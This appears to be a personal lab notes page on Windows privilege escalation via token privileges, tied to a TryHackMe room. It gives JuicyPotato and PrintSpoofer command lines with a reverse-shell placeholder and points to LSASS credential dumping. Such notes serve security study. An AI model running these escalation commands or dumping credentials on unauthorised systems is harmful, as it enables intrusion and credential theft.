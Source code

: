 # Privileges

[![windowsprivesc20](../../../../_badges/thmp/windowsprivesc20.svg)](https://tryhackme.com/room/windowsprivesc20)

<div class="row row-cols-lg-2"><div>

Users may have privileges for running some system tasks such as backups that may be used to escalate.

You can list your privileges with the command below, **but**, you won't see all of them unless you're in an admin prompt.

```shell!
PS> whoami /priv
```

🔥 You can find [way to exploit them on Priv2Admin](https://github.com/gtworek/Priv2Admin) <small>(1.7k ⭐)</small>.
</div><div>

Privileges are [listed and explained here](https://learn.microsoft.com/en-us/windows/win32/secauthz/privilege-constants).
</div></div>

<hr class="sep-both">

## Privilege2Admin

<div class="row row-cols-lg-2"><div>

You may use these as a normal user to escalate to admin or system, and as admin to escalate to system.

#### SeImpersonate — steal access tokens
 
The most common approach is to use [potato](/cybersecurity/red-team/s4.privesc/windows/tools/potato.md) scripts. 

```ps
PS> # You can pick any port for -l. It's for DCOM traffic. 
PS> .\JuicyPotato.exe -l any_port -p c:\windows\system32\cmd.exe -a "/c <reverse shell command>" -t *
````

You can use [PrintSpoofer](https://github.com/itm4n/PrintSpoofer) <small>(1.7k ⭐, 2020 🪦)</small>:

````ps
PS> .\PrintSpoofer.exe -c "<reverse shell command>"
````

Additional references:

* [RogueWinRM](https://github.com/antonioCoco/RogueWinRM) <small>(0.5k ⭐, 2020 🪦)</small> using [WinRM](/operating-systems/networking/protocols/winrm.md)
* [token-priv](https://github.com/hatRiot/token-priv/tree/master) <small>(0.7k ⭐, 2017 🪦)</small>
</div><div>
</div></div>

<hr class="sep-both">

## Admin2System

<div class="row row-cols-lg-2"><div>

You may use these as an admin to escalate system.

#### SeDebugPrivilege — Dump Process Memory

We can use methods shown in [Dump Credentials From LSASS Process](/operating-systems/windows/security/index.md#dump-credentials-from-lsass-process) to dump a process memory, which is often LSASS.
</div><div>
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* [RogueWinRM](/operating-systems/networking/protocols/winrm.md) when `SeImpersonatePrivilege`
</div><div>
</div></div>